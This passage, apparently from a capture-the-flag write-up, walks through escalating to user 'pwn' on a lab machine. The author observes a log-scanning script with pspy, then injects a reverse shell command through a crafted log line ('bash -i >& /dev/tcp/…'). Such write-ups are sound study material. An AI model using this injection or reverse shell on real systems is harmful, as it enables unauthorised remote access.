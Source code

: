 So normally `/home/pwn/scanlosers.sh` will scan us back.

The logs file should contains lines like this one:

```
2021-02-08 19:54:33.513581 1.1.1.1
```

And when we try to "hack" searchploit, it voids the file instead of appending a
new line.

There is `/usr/sbin/incrond` running so there is maybe a root job starting
`/home/pwn/scanlosers.sh` or something similar.

Let's upload and launch pspy to confirm that.

On our machine:

```plaintext
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
$ ruby -run -ehttpd . -p8080
```

On the target machine:

```plaintext
kid@scriptkiddie:~$ wget http://10.10.14.135:8080/pspy64
kid@scriptkiddie:~$ chmod u+x pspy64
kid@scriptkiddie:~$ ./pspy64
```

If we go trigger the searchsploit security filter we can see this on pspy:

```plaintext
2021/02/08 21:30:37 CMD: UID=1001 PID=2221   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2225   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2226   | sh -c nmap --top-ports 10 -oN recon/10.10.14.135.nmap 10.10.14.135 2>&1 >/dev/null 
2021/02/08 21:30:37 CMD: UID=1001 PID=2228   | nmap --top-ports 10 -oN recon/10.10.14.135.nmap 10.10.14.135 
2021/02/08 21:30:37 CMD: UID=1001 PID=2231   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2237   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2236   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=0    PID=2238   | /lib/systemd/systemd-udevd 
2021/02/08 21:30:48 CMD: UID=0    PID=2239   | /usr/sbin/incrond 
2021/02/08 21:30:48 CMD: UID=1001 PID=2240   | sed -i s/open  /closed/g /home/pwn/recon/sed6xfScv 
2021/02/08 21:30:48 CMD: UID=0    PID=2241   | /bin/sh /sbin/dhclient-script 
2021/02/08 21:30:48 CMD: UID=???  PID=2243   | ???
```

1001 is the id of `pwn`, so we'll get a shell as pwn.

Let's craft a reverse shell payload and put it in place:

```plaintext
$ printf %s "noraj noraj ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.135/9999 0>&1' #" > /home/kid/logs/hackers
```

Note: respect the log format else the `cut` in the script will fails to parse
